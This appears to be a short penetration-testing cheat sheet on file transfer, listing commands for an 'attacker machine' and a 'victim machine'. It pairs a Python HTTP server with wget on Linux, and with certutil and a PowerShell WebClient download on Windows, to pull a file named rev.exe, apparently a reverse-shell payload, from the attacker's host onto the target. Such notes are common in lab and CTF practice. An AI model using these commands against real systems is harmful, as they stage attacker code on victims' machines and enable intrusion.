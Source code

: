 # 2_file_transfer

## Linux

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine.
```shell
wget http://$me:8888/filename -O filename
```

## Windows

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://$me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```shell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```
